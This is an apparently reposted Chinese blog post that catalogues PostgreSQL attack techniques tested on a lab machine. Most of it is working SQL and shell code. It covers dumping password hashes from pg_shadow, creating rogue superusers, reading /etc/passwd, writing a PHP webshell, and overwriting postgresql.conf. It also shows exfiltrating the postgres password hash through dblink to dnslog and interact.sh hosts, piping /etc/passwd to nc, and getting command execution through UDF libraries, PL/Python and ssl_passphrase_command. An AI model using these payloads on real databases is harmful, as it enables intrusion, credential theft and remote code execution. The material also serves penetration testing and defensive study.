





# Postgresql 渗透 (总结篇)

Postgresql 数据库作为 python 应用中比较常见的数据库，其利用手段公开的不多，而且利用方式也比较单一，我搜集了国内外一些相关的利用思路进行总结，如有遗漏还请指正。

info

本文首发 跳跳糖社区 [https://tttang.com/archive/1547/](https://tttang.com/archive/1547/)

- - -

# [](#%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86)信息收集

**查看服务器端版本**

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```sql<br>-- 详细信息<br>select version();<br><br>-- 版本信息<br>show server_version;<br>select pg_read_file('PG_VERSION', 0, 200);<br><br>-- 数字版本信息包括小版号<br>SHOW server_version_num;<br>SELECT current_setting('server_version_num');<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/5.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/6.png)

**列目录**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```sql<br>-- 注意: 在早期的 PostgreSQL 版本中,pg_ls_dir 不允许使用绝对路径<br>select pg_ls_dir('/etc');<br><br>-- 获取 pgsql 安装目录<br>select setting from pg_settings where name = 'data_directory';<br><br>-- 查找 pgsql 配置文件路径<br>select setting from pg_settings where name='config_file'<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/13.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/30.png)

**列出数据库**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>SELECT datname FROM pg_database;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/14.png)

**查看支持的语言**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select * from pg_language;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/22.png)

**查看安装的扩展**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select * from pg_available_extensions;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/23.png)

**查看服务器 ip 地址**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```sql<br>-- 这里是运行在 docker 里的靶机,所以 ip 不一致<br>select inet_server_addr()<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/38.png)

- - -

# [](#%E8%B4%A6%E5%8F%B7%E6%93%8D%E4%BD%9C)账号操作

**查看当前用户是不是管理员权限**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>SELECT current_setting('is_superuser');<br>-- on 代表是, off 代表不是<br><br>SHOW is_superuser;<br>SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;<br>``` |

**查询密码**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>SELECT usename, passwd FROM pg_shadow;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/7.png)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>SELECT rolname,rolpassword FROM pg_authid;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/19.png)

可以看到，目前查询到的用户 hash 已经是 scram-sha-256, 在以前的版本是加盐 md5

我们可以查询当前的加密方式

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```sql<br>-- password_encryption参数决定了密码怎么被hash<br>SELECT name,setting,source,enumvals FROM pg_settings WHERE name = 'password_encryption';<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/20.png)

**添加用户**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```sql<br>--创建 f0x，赋予角色属性<br>create user f0x password 'Abcd1234' superuser createrole createdb<br>--添加 f0x 到角色组<br>grant postgres to f0x<br>``` |

**修改一个角色为管理员角色**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>alter role f0x createrole;<br>``` |

**更改密码**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>ALTER USER user_name WITH PASSWORD 'new_password';<br>``` |

**查看用户**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>SELECT user;<br>SELECT current_user;<br>SELECT session_user;<br>SELECT usename FROM pg_user;<br>SELECT getpgusername();<br>``` |

**查看管理员用户**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>SELECT usename FROM pg_user WHERE usesuper IS TRUE<br>``` |

**获取用户角色**

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```sql<br>SELECT<br>      r.rolname,<br>      r.rolsuper,<br>      r.rolinherit,<br>      r.rolcreaterole,<br>      r.rolcreatedb,<br>      r.rolcanlogin,<br>      r.rolconnlimit, r.rolvaliduntil,<br>  ARRAY(SELECT b.rolname<br>        FROM pg_catalog.pg_auth_members m<br>        JOIN pg_catalog.pg_roles b ON (m.roleid = b.oid)<br>        WHERE m.member = r.oid) as memberof<br>, r.rolreplication<br>FROM pg_catalog.pg_roles r<br>ORDER BY 1;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/18.png)

- - -

# [](#postgresql-%E8%AF%BB%E6%96%87%E4%BB%B6)PostgreSQL 读文件

**方法 1 pg\_read\_file**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>-- 注意: 在早期的 PostgreSQL 版本中,pg_read_file 不允许使用绝对路径<br>select pg_read_file('/etc/passwd');<br><br>-- 单引号被转义的情况下使用<br>select/**/PG_READ_FILE($$/etc/passwd$$)<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/15.png)

**方法 2**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>create table testf0x(t TEXT);<br>copy testf0x from '/etc/passwd';<br>select * from testf0x limit 1 offset 0;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/8.png)

**方法 3 lo\_import**

lo\_import 允许指定文件系统路径。该文件将被读取并加载到一个大对象中，并返回该对象的 OID。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>Select lo_import('/etc/passwd',12345678);<br>select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a<br><br>-- 单引号被转义的情况下使用<br>select/**/lo_import($$/etc/passwd$$,11111);<br>select/**/cast(encode(data,$$base64$$)as/**/integer)/**/from/**/pg_largeobject/**/where/**/loid=11111<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/9.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/10.png)

- - -

# [](#postgresql-%E5%86%99%E6%96%87%E4%BB%B6)PostgreSQL 写文件

**利用条件**

-   拥有网站路径写入权限
-   知道网站绝对路径

**方法 1 COPY**

COPY 命令可以用于表和文件之间交换数据，这里可以用它写 webshell

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>COPY (select '<?php phpinfo();?>') to '/tmp/1.php';<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/1.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/2.png)

也可以 base64 一下

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>COPY (select convert_from(decode('ZmZmZmZmZmYweA==','base64'),'utf-8')) to '/tmp/success.txt';<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/16.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/17.png)

**方法 2 lo\_export**

lo\_export 采用大对象 OID 和路径，将文件写入路径。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>select lo_from_bytea(12349,'ffffffff0x');<br>SELECT lo_export(12349, '/tmp/ffffffff0x.txt');<br><br>-- base64 的形式<br>select lo_from_bytea(12350,decode('ZmZmZmZmZmYweA==','base64'));<br>SELECT lo_export(12350, '/tmp/ffffffff0x.txt');<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/36.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/37.png)

**方法 3 lo\_export + pg\_largeobject**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>-- 记下生成的lo_creat ID<br>select lo_creat(-1);<br><br>-- 替换 24577 为生成的lo_creat ID<br>INSERT INTO pg_largeobject(loid, pageno, data) values (24577, 0, decode('ZmZmZmZmZmYweA==', 'base64'));<br>select lo_export(24577, '/tmp/success.txt');<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/31.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/32.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/33.png)

如果内容过多，那么首先创建一个 OID 作为写入的对象，然后通过 0,1,2,3… 分片上传但是对象都为 12345 最后导出到 /tmp 目录下，收尾删除 OID

写的文件每一页不能超过 2KB，所以我们要把数据分段，这里我就不拿 .so 文件为例了，就随便写个 txt 举个例子

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```sql<br>SELECT lo_create(12345);<br>INSERT INTO pg_largeobject VALUES (12345, 0, decode('6666', 'hex'));<br>INSERT INTO pg_largeobject VALUES (12345, 1, decode('666666', 'hex'));<br>INSERT INTO pg_largeobject VALUES (12345, 2, decode('6666', 'hex'));<br>INSERT INTO pg_largeobject VALUES (12345, 3, decode('663078', 'hex'));<br>SELECT lo_export(12345, '/tmp/ffffffff0x.txt');<br>SELECT lo_unlink(12345);<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/11.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/12.png)

或者还可以用 lo\_put 在后面拼接进行写入

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```sql<br>select lo_create(11116);<br>select lo_put(11116,0,'dGVzdDEyM');<br>select lo_put(11116,9,'zQ1Ng==');<br><br>select lo_from_bytea(11141,decode(encode(lo_get(11116),'escape'),'base64'));<br>select lo_export(11141,'/tmp/test.txt');<br>SELECT lo_unlink(11141);<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/45.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/46.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/47.png)

结束记得清理 OID 内容

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>-- 查看创建的 lo_creat ID<br>select * from pg_largeobject<br><br>-- 使用 lo_unlink 进行删除<br>SELECT lo_unlink(12345);<br>``` |

- - -

# [](#postgresql-%E5%88%9B%E5%BB%BA%E6%96%87%E4%BB%B6%E5%A4%B9)PostgreSQL 创建文件夹

## [](#%E9%80%9A%E8%BF%87-log_directory-%E5%88%9B%E5%BB%BA%E6%96%87%E4%BB%B6%E5%A4%B9)通过 log\_directory 创建文件夹

方法来自于 [https://www.yulegeyu.com/2020/11/16/Postgresql-Superuser-SQL%E6%B3%A8%E5%85%A5-RCE%E4%B9%8B%E6%97%85/](https://www.yulegeyu.com/2020/11/16/Postgresql-Superuser-SQL%E6%B3%A8%E5%85%A5-RCE%E4%B9%8B%E6%97%85/) 这篇文章的场景

**利用条件**

-   目标已经配置了 `logging_collector = on`

**描述**

配置文件中的 log\_directory 配置的目录不存在时，pgsql 启动会失败，但是如果日志服务已启动，在修改 log\_directory 配置后再 reload\_conf 目录会被创建

**原理**

logging\_collector 配置是否开启日志，只能在服务开启时配置，reloadconf 无法修改，log\_directory 用来配置 log 日志文件存储到哪个目录，如果 log\_directory 配置到一个不存在的目录，pgsql 会创建目录。

**测试**

拿靶机中的 postgresql 为例，先查看配置文件的路径

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>select setting from pg_settings where name='config_file'<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/39.png)

查看内容

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>select pg_read_file('/var/lib/postgresql/data/postgresql.conf');<br>``` |

将配置文件中的 log\_directory 配置修改

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```fallback<br>log_destination = 'csvlog'<br>log_directory = '/tmp/f0x'<br>log_filename = 'postgresql-%Y-%m-%d_%H%M%S.log'<br>log_rotation_size = 100MB<br>log_rotation_age = 1d<br>log_min_messages = INFO<br>logging_collector = on<br>``` |

转为 base64 格式

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br># 这里我将配置文件的内容存到了 out.txt 中<br>cat out.txt \| base64 -w 0 > base64.txt<br>``` |

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```sql<br>-- 将修改后的配置文件加载到largeobject中<br>select lo_from_bytea(10001,decode('base64的内容,这里略','base64'));<br><br>-- 通过lo_export覆盖配置文件<br>select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');<br>SELECT lo_unlink(10001);<br><br>-- 重新加载配置文件<br>select pg_reload_conf();<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/40.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/41.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/42.png)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```sql<br>-- 查询一下修改是否成功<br>select name,setting,short_desc from pg_settings where name like 'log_%';<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/43.png)

进入靶机，可以看到 f0x 目录已经创建

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/44.png)

- - -

# [](#postgresql-%E5%B8%A6%E5%A4%96%E6%95%B0%E6%8D%AE)PostgreSQL 带外数据

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>-- 开启 dblink 扩展<br>CREATE EXTENSION dblink<br><br>-- 获取当前数据库用户名称<br>SELECT * FROM dblink('host='\|(select user)\|'.djw0pg.dnslog.cn user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/21.png)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```sql<br>-- 查询当前密码<br>SELECT * FROM dblink('host='\|(SELECT passwd FROM pg_shadow WHERE usename='postgres')\|'.c8jrsjp2vtc0000rwce0grjcc3oyyyyyb.interact.sh user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/34.png)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```sql<br>-- nc 监听<br>nc -lvv 4444<br><br>select dblink_connect((select 'hostaddr=x.x.x.x port=4445 user=test password=test sslmode=disable dbname='\|(SELECT passwd FROM pg_shadow WHERE usename='postgres')));<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/35.png)

- - -

# [](#postgresql-%E6%8F%90%E6%9D%83)PostgreSQL 提权

## [](#%E5%88%A9%E7%94%A8-udf-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)利用 UDF 命令执行

在 8.2 以前，postgresql 不验证 magic block, 可以直接调用本地的 libc.so

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```sql<br>CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;<br>SELECT system('cat /etc/passwd \| nc xxx.xx.xx.xx');<br>``` |

8.2 以上版本，需要自己编译 so 文件去创建执行命令函数，可以自己编译反弹 shell 后门，也可以用 sqlmap 提供好的

-   [https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql](https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql)

可以参考 [No-Github/postgresql\_udf\_help](https://github.com/No-Github/postgresql_udf_help)

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```bash<br># 找相应的 dev 扩展包<br>apt-get search postgresql-server-dev<br># 安装 dev 扩展包<br>apt-get install postgresql-server-dev-11<br># apt install postgresql-server-dev-all<br><br># 编译好 .so 文件<br>git clone https://github.com/No-Github/postgresql_udf_help<br>cd postgresql_udf_help<br>gcc -Wall -I/usr/include/postgresql/11/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so<br>strip -sx lib_postgresqludf_sys.so<br><br># 生成分片后的 sql 语句<br>cat lib_postgresqludf_sys.so \| xxd -ps \| tr -d "\n" > 1.txt<br>python2 postgresql_udf_help.py 1.txt > sqlcmd.txt<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/4.png)

## [](#plpython-%E6%89%A9%E5%B1%95)PL/Python 扩展

PostgreSQL 可以支持多种存储过程语言，官方支持的除了 PL/pgSQL，还有 TCL，Perl，Python 等。

默认 PostgreSQL 不会安装 Python 的扩展，这里我手动在靶机上安装下进行复现

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select version();<br>``` |

先看下版本，pg 14

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/24.png)

搜索下有没有对应的 plpython3u 版本安装

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>apt search postgresql-plpython<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/25.png)

有，那么直接装

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>apt install postgresql-plpython-14<br>``` |

安装完毕后记得注册下扩展

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>create extension plpython3u;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/26.png)

查看是否支持 plpython3u

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>select * from pg_language;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/27.png)

创建一个 UDF 来执行我们要执行的命令

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>CREATE FUNCTION system (a text)<br>  RETURNS text<br>AS $$<br>  import os<br>  return os.popen(a).read()<br>$$ LANGUAGE plpython3u;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/28.png)

创建好 UDF 后，进行调用

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select system('ls -la');<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/29.png)

## [](#%E5%88%A9%E7%94%A8-session_preload_libraries-%E5%8A%A0%E8%BD%BD%E5%85%B1%E4%BA%AB%E5%BA%93)利用 session\_preload\_libraries 加载共享库

方法来自于 [https://www.yulegeyu.com/2020/11/16/Postgresql-Superuser-SQL%E6%B3%A8%E5%85%A5-RCE%E4%B9%8B%E6%97%85/](https://www.yulegeyu.com/2020/11/16/Postgresql-Superuser-SQL%E6%B3%A8%E5%85%A5-RCE%E4%B9%8B%E6%97%85/) 这篇文章的场景

**描述**

session\_preload\_libraries 只允许 superuser 修改，但可以加载任意目录的库，session\_preload\_libraries 配置从 pg10 开始存在，低于 pg10 时，可以使用 local\_preload\_libraries，不过该配置只允许加载 $libdir/plugins/ 目录下的库，需要将库写入到该目录下。

当每次有新连接进来时，都会加载 session\_preload\_libraries 配置的共享库。

和上面的利用 UDF 命令执行一样，不过不同点在于上面一个是创建 function 加载，这个方式是通过改配置文件中的 session\_preload\_libraries 进行加载，这里就不复现了

## [](#%E5%88%A9%E7%94%A8-ssl_passphrase_command-%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)利用 ssl\_passphrase\_command 执行命令

方法来自于 [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli) 这篇文章的场景

**利用条件**

-   需要知道 PG\_VERSION 文件的位置 (不是 PG\_VERSION 文件也行，pgsql 限制私钥文件权限必须是 0600 才能够加载，pgsql 目录下的所有 0600 权限的文件都是可以的，但覆盖后没啥影响的就 PG\_VERSION 了)

**描述**

当配置文件中配置了 ssl\_passphrase\_command，那么该配置在需要获取用于解密 SSL 文件密码时会调用该配置的命令。

通过上传 pem，key 到目标服务器上，读取配置文件内容，修改配置文件中的 ssl 配置改为我们要执行的命令，通过 lo\_export 覆盖配置文件，最后通过 pg\_reload\_conf 重载配置文件时将执行命令

**复现**

这里以靶机上已经存在的 2 个密钥文件为例

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>/etc/ssl/certs/ssl-cert-snakeoil.pem<br>/etc/ssl/private/ssl-cert-snakeoil.key<br>``` |

通过文件读取获取私钥

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select pg_read_file('/etc/ssl/private/ssl-cert-snakeoil.key');<br>``` |

对私钥文件加密

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 密码为 12345678<br>openssl rsa -aes256 -in ssl-cert-snakeoil.key -out private_passphrase.key<br><br># 输出为 base64 格式<br>cat private_passphrase.key \| base64 -w 0 > base.txt<br>``` |

上传 private\_passphrase.key 到目标服务器上

由于 pgsql 限制私钥文件权限必须是 0600 才能够加载，这里搜索 pgsql 目录下的所有 0600 权限的文件，发现 PG\_VERSION 文件符合条件，而且覆盖也没有太大影响

PG\_VERSION 与 config\_file 文件同目录，上传私钥文件覆盖 PG\_VERSION，可绕过权限问题。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```sql<br>-- 将 private_passphrase.key 覆盖 PG_VERSION 文件<br>select lo_from_bytea(10004,decode('base64的内容,这里略','base64'));<br>select lo_export(10004,'/var/lib/postgresql/data/PG_VERSION');<br>SELECT lo_unlink(10004);<br>``` |

在靶机中查看验证是否写入成功

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/49.png)

读取配置文件内容

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>select setting from pg_settings where name='config_file'<br>select pg_read_file('/var/lib/postgresql/data/postgresql.conf');<br>``` |

在原始配置文件内容末尾追加上 ssl 配置

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>ssl = on<br>ssl_cert_file = '/etc/ssl/certs/ssl-cert-snakeoil.pem'<br>ssl_key_file = '/var/lib/postgresql/data/PG_VERSION'<br>ssl_passphrase_command_supports_reload = on<br>ssl_passphrase_command = 'bash -c "touch /tmp/success & echo 12345678; exit 0"'<br>``` |

转为 base64 格式

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br># 这里我将配置文件的内容存到了 out.txt 中<br>cat out.txt \| base64 -w 0 > base3.txt<br>``` |

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```sql<br>-- 将修改后的配置文件加载到largeobject中<br>select lo_from_bytea(10001,decode('base64的内容,这里略','base64'));<br><br>-- 通过lo_export覆盖配置文件<br>select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');<br>SELECT lo_unlink(10001);<br><br>-- 重新加载配置文件<br>select pg_reload_conf();<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/50.png)

可以看到，重新加载配置文件后，ssl\_passphrase\_command 中的命令已经执行

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/48.png)

## [](#cve-2018-1058-postgresql-%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E)CVE-2018-1058 PostgreSQL 提权漏洞

PostgreSQL 其 9.3 到 10 版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

详细复现可以参考 vulhub 靶场中的 writeup

-   [https://vulhub.org/#/environments/postgres/CVE-2018-1058/](https://vulhub.org/#/environments/postgres/CVE-2018-1058/)

